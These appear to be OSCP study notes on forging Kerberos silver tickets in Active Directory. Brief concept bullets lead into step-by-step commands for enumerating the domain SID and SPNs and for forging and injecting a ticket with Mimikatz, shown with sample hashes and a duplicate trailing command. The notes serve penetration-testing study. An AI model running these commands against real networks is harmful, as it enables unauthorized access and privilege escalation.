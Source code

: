 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/5-silver-tickets/","updated":"2024-01-05T11:36:53.663+01:00"}
---
```


-----------
- Ability to access SPN as anyone if owns hash of any account of that SPN
- Application checks user permissions in service ticket, but are often not verified by anything
- It trusts the integrity since the ticket is encrypted with the password hash
- Forging these tickets can be prevented with Privileged Account Certificate (PAC) validation. However, it is rare.
- Using an account password or NTLM hash a ticket can be created to access the application on all servers with the same SPN
- Information needed to forge a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
-------------------------
### Forging a silver ticket with Mimikatz:
1. Get NTLM hash in some way.
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Get SPN:
```
#Using setspn.exe:
setspn -L <user>

#Using PowerView:
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
4. Craft ticket:
```
#Run mimikatz:
.\mimikatz.exe

#Engage debug mode:
privilege::debug

#Craft ticket:
kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:<targetuser>

#Example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
5. Confirm ticket is loaded in to memory in Powershell:
```
klist
```

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:08d7a47a6f9f66b97b1bae4178747494 /user:iis_service